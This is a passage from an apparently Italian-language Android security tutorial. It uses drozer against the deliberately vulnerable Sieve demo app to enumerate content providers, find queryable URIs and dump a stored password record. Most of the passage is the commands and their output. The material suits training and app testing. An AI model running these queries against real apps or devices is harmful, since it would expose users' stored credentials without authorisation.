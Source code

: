 	dz> run app.provider.info -a com.mwr.example.sieve
	
```
Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.mwr.example.sieve.DBContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
    Path Permissions:
      Path: /Keys
        Type: PATTERN_LITERAL
        Read Permission: com.mwr.example.sieve.READ_KEYS
        Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.mwr.example.sieve.FileBackupProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
```

Per identificare le URI dei content provider usa drozer:

```sh
dz> run scanner.provider.finduris -a com.mwr.example.sieve
```
	
```
Scanning com.mwr.example.sieve...
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider/
Unable to Query  content://com.mwr.example.sieve.DBContentProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords/
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Keys/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/Keys

Accessible content URIs:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```
	
Ottenute le URI prova a estrarre i dati:

```sh
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
```
	
```
     _id  1
 service  amazon.com
username  my-username
password  Su2BcNE5fofOONqpeLrLJQ9OsGQHZ3mrfqo/ (Base64-encoded)
   email  u@mail.com
```
